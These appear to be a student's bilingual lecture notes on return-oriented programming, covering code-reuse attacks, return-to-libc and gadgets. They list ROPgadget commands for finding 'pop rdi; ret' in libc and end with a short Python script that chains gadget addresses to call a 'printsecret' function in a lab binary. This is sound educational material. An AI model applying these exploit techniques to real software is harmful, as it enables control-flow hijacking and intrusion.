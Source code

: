 ![[L13 Return-oriented Programming.pdf#page=3&selection=6,15,6,41]]
어떻게든지 하이재킹 한다

buffer overflow = overwrite -> CPU execute the code
Hijack the control flow
Global Variables/Local Variables
Don't hijack the control flow

Code Injectio attack
	Shell code supplied by hacker
	Machine code = instructions

Code reuse attack
Return to libc attack

address space 에 있어야됨

return to some place => NOT oversrite, re use

Turing complete 하게

Innocent flesh = Random bytes
Code sequence
	Gadgets
		Some bytes > Not limited by compiler

Generates random byte -> Interpreted as a valid instructions

ROP gadget
![[L13 Return-oriented Programming.pdf#page=13&selection=3,0,4,50]]
NOjop - NO JUMP ORIENTED
Binary to get gadgets in the binary
offset - BaseAddress

![[L13 Return-oriented Programming.pdf#page=27&selection=5,0,11,60]]
40 bytes


1. python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6
2. python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6 --nojop
3. python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6 --nojop | grep "pop rdi"
	1. 0x0000000000023b6a : pop rdi ; ret
4. ldd ./bufferoverflow_overflowret3_64
5. touch /tmp/e.sh
6. ![[L13 Return-oriented Programming.pdf#page=27&selection=5,0,12,7]]![[L13 Return-oriented Programming.pdf#page=27&selection=2,0,12,7]]![[L13 Return-oriented Programming.pdf#page=27&selection=9,38,9,46]]

1. Address
	1. F1
		1. 0000000000401166
	2. F2
		1. 00000000004011ae
	3. F3
		1. 00000000004011f9
	4. F4
		1. 000000000040123b

```

```

```
#!/usr/bin/env python2  
# python template to generate ROP exploit

from struct import pack

p = ''  
p += "A" * 14  
p += pack('<Q', 0x00007ffff7dccb72) # pop rdi ; ret  
p += pack('<Q', 0x0000000012345678) #  
p += pack('<Q', 0x00007ffff7dcf04f) # pop rsi ; ret  
p += pack('<Q', 0x00000000deadbeef) #  
p += pack('<Q', 0x000000000040127a) # Address of printsecret

print p
```